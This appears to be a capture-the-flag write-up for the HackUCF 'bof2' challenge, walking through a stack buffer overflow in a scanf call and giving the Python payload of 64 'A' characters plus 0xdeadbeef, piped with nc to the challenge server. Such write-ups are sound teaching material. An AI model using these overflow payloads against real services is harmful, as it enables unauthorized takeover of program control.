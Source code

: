 # bof2
**Category:** Pwn

**Points:** 20

**Description:**

Author: kablaa

nc ctf.hackucf.org 9001

> **Files:** bof2, bof2.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `scanf()` call into a buffer of 64 chars:
```c
void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}
```

When the program runs it waits for input at this point, and overflowing the buffer may overflow into the `correct` variable.

To test this I first created a file with 64 A characters in. This allows us to see how the stack is organised.
```
> python -c "print('A'*64)" > inp_file.txt
```

First, for this run of the code, we can see that our `correct` variable ends up at 0xffbab10c (I guessed this was the `correct` variable as it is set to 0):

![Location of 'correct' variable](correct_location.png)

We can see this area on the stack (highlighted in yellow):

!['Correct' variable on the stack](stack1.png)

If we move the debugger on one step, we can see this area get zeroed:

!['Correct' variable set to zero](stack2.png)

We can also see that our `bof` array is at 0xffbab0cc (must be `bof` as it's being set up for use in the `scanf()`):

![Location of 'bof' array](bof_location.png)

If we send our 64 A characters in, we can clearly see this array on the stack:

![bof array filled with As](stack3.png)

We can also see that it sits right up against our `correct` variable, so we should be able to set `correct` to 0xdeadbeef by sending those characters after our 64 A characters (we need to reverse the order of the bytes because - little endian). Our input file is now set with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" > inp_file.txt
```

If we run this and look at the stack we can now see our A characters followed by our `deadbeef`:

![As and deadbeef](stack4.png)

Tracing through, we end up in the `win()` function. So now it's time to try it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde')" | nc ctf.hackucf.org 9001
````

This worked, and gave me the flag.
